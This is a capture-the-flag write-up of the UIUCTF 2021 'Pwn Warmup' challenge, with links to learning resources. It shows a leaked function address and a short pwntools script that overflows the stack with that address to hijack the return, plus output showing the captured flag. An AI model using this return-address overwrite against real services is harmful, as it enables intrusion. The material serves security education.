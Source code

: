 # Pwn Warmup(UIUCTF 2021)
```
Points - 50	Number of solves - 214

Hmm this time we arent just going to give you the flag like last year... What can you do?!

nc pwn-warmup.chal.uiuc.tf 1337 

author: Thomas

attachments: pwn-warmup
```

We try to connect to the given server instance using netcat.
```bash
$ nc pwn-warmup.chal.uiuc.tf 1337
== proof-of-work: disabled ==
This is pwn_warmup, go
&give_flag = 0x565612ad
^C
```
Hmm.. this really seems to be a warmup challenge. By the looks of the address, it looks like 32-bit binary. So, I just wrote this simple script to send back this address in hope of overwriting the saved return address on stack:
```python
from pwn import *

target = remote("pwn-warmup.chal.uiuc.tf", 1337)

target.recvuntil("&give_flag = ")

give_flag = int(target.recvline().strip('\n'), 0x10)

target.sendline(p32(give_flag)*20)

target.interactive()
```
```bash
$ python exploit.py 
[+] Opening connection to pwn-warmup.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to pwn-warmup.chal.uiuc.tf port 1337
```
And bingo, it really worked right away. _k3b0ard_sp@m_st1ll_w0rks_ haha

For those who are new to this, `p32(addr32)` converts 32-bit value `addr32` to its ascii representation as string.
For example, p32(0x41424344) gives "\x44\x43\x42\x41". Other function names are indicative of what they do.

If you are reading this writeup, these are few resources that might be helpful to you:

## Resources
[Nightmare](https://github.com/guyinatuxedo/nightmare)

[Intro-X86](https://opensecuritytraining.info/IntroX86.html)

[Exploits1](https://opensecuritytraining.info/Exploits1.html)

[pwn.college](https://pwn.college/)
